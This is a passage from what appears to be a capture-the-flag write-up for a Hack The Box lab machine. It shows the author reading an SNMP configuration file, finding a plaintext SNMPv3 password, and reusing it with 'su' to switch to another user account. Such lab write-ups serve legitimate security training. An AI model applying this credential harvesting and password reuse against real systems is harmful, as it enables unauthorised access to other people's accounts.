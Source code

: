 ```bash
   133721      4 -rw-r--r--   1 root     root         1078 Jun  7  2022 /etc/ssl/certs/ssl-cert-snakeoil.pem
   133630     64 -rw-r--r--   1 root     root        63312 Jun 10  2022 /etc/udev/rules.d/70-snap.snapd.rules
   132106      4 -rw-r--r--   1 root     root           36 Jun 10  2022 /etc/subgid
   131753      4 -rw-r--r--   1 root     root           17 Jun 10  2022 /etc/subuid-

```

We find an snmp v3 password in the snmp config
```
grep -v ^# /etc/snmp/snmpd.conf|grep ^.
sysLocation    Sitting on the Dock of the Bay
sysContact     Me <admin@mentorquotes.htb>
sysServices    72
master  agentx
agentAddress udp:161,udp6:[::1]:161
view   systemonly  included   .1.3.6.1.2.1.1
view   systemonly  included   .1.3.6.1.2.1.25.1
rocommunity  public default -V systemonly
rocommunity6 public default -V systemonly
rouser authPrivUser authpriv -V systemonly
includeDir /etc/snmp/snmpd.conf.d
createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv
com2sec AllUser default internal
group AllGroup v2c AllUser
view SystemView included .1.3.6.1.2.1.25.1.1
view AllView included .1
access AllGroup "" any noauth exact AllView none none
```

There is no bootstrap user in the system, but this might have been reused, and it was been by james:
```bash
svc@mentor:~$ grep sh$ /etc/passwd
root:x:0:0:root:/root:/bin/bash
svc:x:1001:1001:,,,:/home/svc:/bin/bash
james:x:1000:1000:,,,:/home/james:/bin/bash
svc@mentor:~$ su - james
Password:
james@mentor:~$ id
uid=1000(james) gid=1000(james) groups=1000(james)
james@mentor:~$ pwd
/home/james
james@mentor:~$ ls -la
total 20
drwxr-x--- 3 james james 4096 Nov 10 14:27 .
drwxr-xr-x 4 root  root  4096 Jun 10  2022 ..
lrwxrwxrwx 1 root  root     9 Nov 10 14:27 .bash_history -> /dev/null
-rw-r--r-- 1 james james 3771 Jun 10  2022 .bashrc
drwx------ 2 james james 4096 Jun 10  2022 .cache
-rw-r--r-- 1 james james  807 Jun 10  2022 .profile
```
